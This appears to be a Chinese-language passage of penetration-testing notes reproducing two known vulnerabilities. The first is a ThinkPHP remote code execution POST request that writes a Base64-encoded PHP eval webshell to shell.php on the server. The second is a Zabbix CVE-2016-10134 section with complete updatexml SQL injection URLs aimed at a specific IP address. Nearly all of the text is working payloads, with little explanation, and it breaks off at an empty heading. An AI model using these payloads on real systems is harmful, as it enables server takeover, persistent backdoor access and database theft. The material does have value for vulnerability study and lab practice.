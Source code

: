 ### 2、漏洞利用

通过`echo`命令写入 Webshell 文件
首先将一句话木马进行 Base64 编码

![image-20220306144041673](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203061440725.png)

发送POST请求：

```
_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=echo -n YWE8P3BocCBAZXZhbCgkX1JFUVVFU1RbJ2F0dGFjayddKSA/PmJi | base64 -d > shell.php
```

![image-20220306144131358](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203061441430.png)

访问websehll

![image-20220306144240230](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203061442273.png)

使用webshell工具连接

![image-20220306144724379](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203061447462.png)

## zabbix/CVE-2016-10134

![image-20220306145533457](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203061455554.png)

```
5b0fe444a32bd4a2910c44e90326892e

后16位
910c44e90326892e
```

### 2、构造请求

```
http://212.129.238.18:8080/latest.php?output.php=ajax&sid=910c44e90326892e&favobj=toggle&toggle_open_state=1&toggle_ids=updatexml(0,concat(0xa,database()),0)


http://212.129.238.18:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=updatexml(0,concat(0xa,user()),0)
```

### 3、手工注入

```
http://212.129.238.18:8080/latest.php?output.php=ajax&sid=910c44e90326892e&favobj=toggle&toggle_open_state=1&toggle_ids=updatexml(0,concat(0xa,{注入点},0)
```

#### 信息：
